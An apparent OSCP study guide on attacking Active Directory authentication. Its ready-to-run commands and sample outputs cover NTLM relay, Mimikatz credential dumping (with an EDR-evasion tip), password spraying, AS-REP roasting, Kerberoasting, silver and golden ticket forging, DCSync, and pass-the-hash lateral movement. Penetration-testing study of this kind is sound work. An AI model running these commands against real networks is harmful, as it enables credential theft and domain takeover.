



## Active Directory Authentication: The Foundation

Active Directory relies on two primary authentication protocols: **NTLM** (legacy, challenge-response) and **Kerberos** (modern, ticket-based). Understanding how they work, where credentials are stored, and how they can be abused is critical for OSCP-level AD exploitation. This guide covers every major authentication attack vector with real-world commands, outputs, and attack flows.

> {: .prompt-tip }
> **OSCP Focus:** The exam heavily tests credential dumping, PtH/OPtH, Kerberoasting, AS-REP Roasting, and basic ticket manipulation. Master the commands, understand the underlying protocols, and practice in a lab environment.

---

## NTLM Authentication Deep Dive

NTLM (NT LAN Manager) is a challenge-response authentication protocol. It's stateless, doesn't require a central ticket server, and is vulnerable to relay and offline cracking attacks.

### NTLM Authentication Flow



### NTLM Hash Format
```text
LM Hash (deprecated):  AAD3B435B51404EEAAD3B435B51404EE
NT Hash:               8846F7EAEE8FB117AD06BDD830B7586C
Format:                <LM>:<NT>
Example:               AAD3B435B51404EEAAD3B435B51404EE:8846F7EAEE8FB117AD06BDD830B7586C
```

### NTLM Relay Attack (Concept)
If SMB signing is disabled, an attacker can intercept NTLM authentication and relay it to another machine to gain access.

```bash
# Linux: Responder + ntlmrelayx
sudo responder -I eth0 -dwv
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

**Output:**
```text
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 10.10.10.15, attacking target smb://10.10.10.20
[*] Authenticating against smb://10.10.10.20 as CORP\jdoe SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Executing command: whoami
[*] Command executed successfully: corp\jdoe
```

> {: .prompt-tip }
> NTLM is being phased out in favor of Kerberos, but remains enabled for backward compatibility. Always check `SMB Signing` status. If `False`, NTLM relay is possible.

---

## Kerberos Authentication Deep Dive

Kerberos is a ticket-based, symmetric-key authentication protocol. It eliminates password transmission over the network and uses a trusted third party (Key Distribution Center - KDC) running on the Domain Controller.

### Kerberos Authentication Flow



### Key Kerberos Components
| Component | Purpose |
|-----------|---------|
| **KDC** | Runs on DC, contains AS & TGS |
| **TGT** | Ticket Granting Ticket, proves identity to KDC |
| **TGS** | Ticket Granting Service, issues service tickets |
| **SPN** | Service Principal Name, unique identifier for services |
| **PAC** | Privilege Attribute Certificate, contains user SID & group memberships |
| **KRBTGT** | Special account that signs all TGTs. Compromise = Golden Ticket |

> {: .prompt-tip }
> Kerberos is secure by design, but misconfigurations (weak service passwords, unconstrained delegation, missing SPN validation) create exploitable paths. The OSCP exam tests Kerberoasting, AS-REP Roasting, and basic ticket abuse.

---

## Cached AD Credentials & LSASS Memory

Windows caches credentials locally to allow logon when disconnected from the domain. These are stored in the registry and LSASS process memory.

### Cached Credentials Location
```text
Registry: HKEY_LOCAL_MACHINE\SECURITY\Cache
Format:   NL$1, NL$2, etc. (MSCACHE v2 hashes)
Hashcat Mode: 2100 (Domain Cached Credentials 2)
```

### LSASS Process & Credential Dumping
LSASS (Local Security Authority Subsystem Service) handles authentication and stores plaintext passwords, NTLM hashes, and Kerberos tickets in memory.

```powershell
# Check LSASS process
Get-Process lsass
```

**Output:**
```text
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    842      35   124568     156234       2.14   1024   0 lsass
```

### Mimikatz Credential Dumping

```cmd
mimikatz.exe privilege::debug
```

**Output:**
```text
Privilege '20' OK
```

```cmd
mimikatz.exe sekurlsa::logonpasswords
```

**Output:**
```text
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : SYSTEM
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2/5/2024 8:15:22 AM
SID               : S-1-5-18
        msv :
         [00000003] Primary
         * Username : DC01$
         * Domain   : CORP
         * NTLM     : 8846f7eaee8fb117ad06bdd830b7586c
         * SHA1     : 9c8a12b3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9
        tspkg :
        wdigest :
         * Username : DC01$
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : DC01$
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 45210 (00000000:0000b09a)
Session           : Interactive from 2
User Name         : jdoe
Domain            : CORP
Logon Server      : DC01
Logon Time        : 2/5/2024 9:30:15 AM
SID               : S-1-5-21-1234567890-1234567890-1234567890-1105
        msv :
         [00000003] Primary
         * Username : jdoe
         * Domain   : CORP
         * NTLM     : a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
        wdigest :
         * Username : jdoe
         * Domain   : CORP
         * Password : Summer2023!
        kerberos :
         * Username : jdoe
         * Domain   : CORP.LOCAL
         * Password : (null)
```

### Extracting Kerberos Tickets from LSASS

```cmd
mimikatz.exe sekurlsa::tickets /export
```

**Output:**
```text
Authentication Id : 0 ; 45210 (00000000:0000b09a)
Session           : Interactive from 2
User Name         : jdoe
Domain            : CORP
Logon Server      : DC01
Logon Time        : 2/5/2024 9:30:15 AM
SID               : S-1-5-21-1234567890-1234567890-1234567890-1105
        [00000000] - 0x12 - aes256_hmac
            Start/End/MaxRenew: 2/5/2024 9:30:15 AM ; 2/5/2024 7:30:15 PM ; 2/12/2024 9:30:15 AM
            Server Name       : krbtgt/CORP.LOCAL @ CORP.LOCAL
            Client Name       : jdoe @ CORP.LOCAL
            Flags 40a00000    : forwardable ; renewable ; pre_authent ;
            Session Key       : 0x12 - aes256_hmac
                1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b
            Ticket            : 0x12 - aes256_hmac ; kvno 2
                [...]
            * Saved to file : [0;3e4]-2-0-40a00000-jdoe@krbtgt-CORP.LOCAL.kirbi
```

> {: .prompt-tip }
> LSASS dumping requires `SeDebugPrivilege` (Administrator). Modern EDRs flag `sekurlsa::logonpasswords`. Use `procdump64.exe -accepteula -ma lsass.exe lsass.dmp` then analyze offline with `mimikatz.exe sekurlsa::minidump lsass.dmp sekurlsa::logonpasswords`.

---

## Credential Acquisition Techniques

### 1. Password Spraying
```bash
netexec smb 10.10.10.0/24 -u users.txt -p 'Password123!' --continue-on-success
```
**Output:**
```text
SMB         10.10.10.10     445    DC01             [+] CORP\jdoe:Password123! (Pwn3d!)
SMB         10.10.10.15     445    FILE01           [+] CORP\jdoe:Password123! (Pwn3d!)
```

### 2. AS-REP Roasting (DONT_REQ_PREAUTH)
```bash
impacket-GetNPUsers corp.local/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
```
**Output:**
```text
$krb5asrep$23$jdoe@CORP.LOCAL:8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d$1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b
```
```bash
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

### 3. Kerberoasting (SPN Abuse)
```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.10 corp.local/jdoe:Password123!
```
**Output:**
```text
$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/DB01.corp.local:1433*$8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d$1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b
```
```bash
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## Abuse Enabled User Account Options

AD user accounts have flags in `userAccountControl`. Some create immediate attack paths:

| Flag | Value | Abuse |
|------|-------|-------|
| `DONT_REQ_PREAUTH` | 4194304 | AS-REP Roasting |
| `TRUSTED_TO_AUTH_FOR_DELEGATION` | 16777216 | S4U2Proxy impersonation |
| `PASSWD_NOTREQD` | 32 | Empty password logon |
| `DONT_EXPIRE_PASSWORD` | 65536 | Persistent access |
| `SMARTCARD_REQUIRED` | 262144 | Bypass with `sekurlsa::pth` |

```powershell
Get-DomainUser -Identity jdoe | Select-Object samaccountname,useraccountcontrol
```
**Output:**
```text
samaccountname useraccountcontrol
-------------- ------------------
jdoe           66048
```
`66048 = 65536 (DONT_EXPIRE) + 512 (NORMAL_ACCOUNT)`

---

## Kerberos SPN Abuse & Ticket Forging

### Silver Ticket (Service Account Compromise)
Forge a TGS for a specific service using the service account's NTLM hash.

```bash
# Linux: Impacket ticketer
impacket-ticketer -spn MSSQLSvc/DB01.corp.local:1433 -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -domain corp.local -nthash 8846F7EAEE8FB117AD06BDD830B7586C -user-id 1105 svc_sql

# Output: svc_sql.ccache
export KRB5CCNAME=svc_sql.ccache
impacket-psexec corp.local/svc_sql@DB01.corp.local -k -no-pass
```
**Output:**
```text
[*] Requesting shares on DB01.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file XyZ123.exe
[*] Opening SVCManager on DB01.corp.local.....
[*] Creating service XyZ123 on DB01.corp.local.....
[*] Starting service XyZ123.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
corp\svc_sql
```

### Golden Ticket (KRBTGT Compromise)
Forge a TGT using the `krbtgt` NTLM hash. Grants domain-wide access for 10 years by default.

```bash
# Extract krbtgt hash via DCSync first
impacket-secretsdump corp.local/administrator:Password123!@10.10.10.10
```
**Output:**
```text
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```

```bash
# Forge Golden Ticket
impacket-ticketer -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -domain corp.local -nthash 8846f7eaee8fb117ad06bdd830b7586c -user-id 500 -groups 512,513,518,520 administrator

export KRB5CCNAME=administrator.ccache
impacket-psexec corp.local/administrator@DC01.corp.local -k -no-pass
```
**Output:**
```text
[*] Requesting shares on DC01.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file XyZ123.exe
[*] Opening SVCManager on DC01.corp.local.....
[*] Creating service XyZ123 on DC01.corp.local.....
[*] Starting service XyZ123.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4737]
C:\Windows\system32> whoami
corp\administrator
```

> {: .prompt-tip }
> **Silver Ticket** = Service-specific. **Golden Ticket** = Domain-wide. Golden requires `krbtgt` hash. Both bypass normal authentication and survive password changes. OSCP tests Silver/Golden concepts via Rubeus/Impacket.

---

## Domain Controller Synchronization (DCSync)

DCSync abuses the `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` privileges to mimic a Domain Controller and request password hashes for any user.

### Required Privileges
- `Domain Admins`
- `Enterprise Admins`
- `Backup Operators` (sometimes)
- Custom ACL with replication rights

### Execution
```bash
impacket-secretsdump corp.local/jdoe:Password123!@10.10.10.10
```
**Output:**
```text
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
jdoe:1105:aad3b435b51404eeaad3b435b51404ee:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6:::
asmith:1106:aad3b435b51404eeaad3b435b51404ee:b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7:::
svc_backup:1107:aad3b435b51404eeaad3b435b51404ee:c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8:::
[*] Cleaning up...
```

> {: .prompt-tip }
> DCSync leaves minimal logs but triggers Event ID 4662 (Object Access) and 5136 (Directory Service Object Modified). It's the fastest path to `krbtgt` hash → Golden Ticket → Full domain compromise.

---

## Lateral Movement: PtH vs OPtH vs PSRemoting/WinRM

### Pass-the-Hash (PtH)
Uses NTLM hash directly for SMB/RPC authentication. Works on NTLM-based services.

```bash
# Linux: Impacket psexec/wmiexec/smbexec
impacket-psexec corp.local/jdoe@10.10.10.15 -hashes :a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
```
**Output:**
```text
[*] Requesting shares on 10.10.10.15.....
[*] Found writable share ADMIN$
[*] Uploading file XyZ123.exe
[*] Opening SVCManager on 10.10.10.15.....
[*] Creating service XyZ123 on 10.10.10.15.....
[*] Starting service XyZ123.....
[!] Press help for extra shell commands
C:\Windows\system32> whoami
corp\jdoe
```

### Overpass-the-Hash (OPtH)
Converts NTLM hash to Kerberos TGT, then uses Kerberos for authentication. Required for WinRM/PSRemoting.

```powershell
# Windows: Rubeus or Mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:jdoe /domain:corp.local /ntlm:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 /run:cmd.exe"
```
**Output:**
```text
mimikatz(commandline) # privilege::debug
Privilege '20' OK
mimikatz(commandline) # sekurlsa::pth /user:jdoe /domain:corp.local /ntlm:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 /run:cmd.exe
user    : jdoe
domain  : corp.local
program : cmd.exe
impers. : no
NTLM    : a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
  |  PID  4520
  |  TID  4524
  |  LSA Process is now R/W
  |  LUID 0 ; 996 (00000000:000003e4)
  \_ msv1_0   - data copy @ 000001A2B3C4D5E6 : OK !
  \_ kerberos - data copy @ 000001A2B3C4D5E6 : OK !
  \_ credman  - no data
```
New cmd.exe opens with Kerberos TGT injected. Now PSRemoting works.

### PowerShell Remoting & WinRM

| Tool | Protocol | Auth Type | OSCP Relevance |
|------|----------|-----------|----------------|
| `Enter-PSSession` | WinRM (5985/5986) | Kerberos/NTLM | High |
| `Invoke-Command` | WinRM | Kerberos/NTLM | High |
| `winrs` | WinRM | NTLM/Kerberos | Medium |
| `evil-winrm` | WinRM | NTLM/Hash/Kerberos | High (Linux) |

#### Windows: Enter-PSSession
```powershell
Enter-PSSession -ComputerName FILE01.corp.local -Credential CORP\jdoe
```
**Output:**
```text
[FILE01.corp.local]: PS C:\Users\jdoe\Documents> whoami
corp\jdoe
[FILE01.corp.local]: PS C:\Users\jdoe\Documents> hostname
FILE01
```

#### Windows: Invoke-Command
```powershell
Invoke-Command -ComputerName FILE01.corp.local -ScriptBlock { whoami; hostname } -Credential CORP\jdoe
```
**Output:**
```text
corp\jdoe
FILE01
```

#### Windows: winrs
```cmd
winrs -r:FILE01.corp.local -u:CORP\jdoe -p:Password123! "whoami && hostname"
```
**Output:**
```text
corp\jdoe
FILE01
```

#### Linux: evil-winrm
```bash
evil-winrm -i 10.10.10.15 -u jdoe -p 'Password123!'
```
**Output:**
```text
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
corp\jdoe
*Evil-WinRM* PS C:\Users\jdoe\Documents> hostname
FILE01
```

#### Linux: evil-winrm with Hash (OPtH equivalent)
```bash
evil-winrm -i 10.10.10.15 -u jdoe -H a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
```
**Output:**
```text
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
corp\jdoe
```

> {: .prompt-tip }
> **PtH** = NTLM only (SMB/RPC). **OPtH** = Converts hash → Kerberos TGT → Enables WinRM/PSRemoting. OSCP requires knowing when to use which. WinRM runs on port 5985 (HTTP) or 5986 (HTTPS). Always check `Test-WSMan` before attempting PSRemoting.

---

## AD Authentication Attack Decision Tree



---

## References

- [Microsoft — Kerberos Protocol Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/)
- [Microsoft — NTLM Authentication Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/)
- [HarmJ0y — PowerView & AD Cheatsheets](https://github.com/HarmJ0y/CheatSheets)
- [Impacket — Official Examples & Documentation](https://github.com/fortra/impacket)
- [Rubeus — Kerberos Abuse Toolkit](https://github.com/GhostPack/Rubeus)
- [NetExec — AD Enumeration & Execution](https://www.netexec.wiki/)
- [HackTricks — Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [MITRE ATT&CK — Credential Access & Lateral Movement](https://attack.mitre.org/tactics/TA0006/)
- [OSCP Exam Guide — Active Directory Section](https://www.offsec.com/courses/pen-200/)

---

*Last updated: February 5, 2024*
*Author: Security Researcher*
*License: MIT*
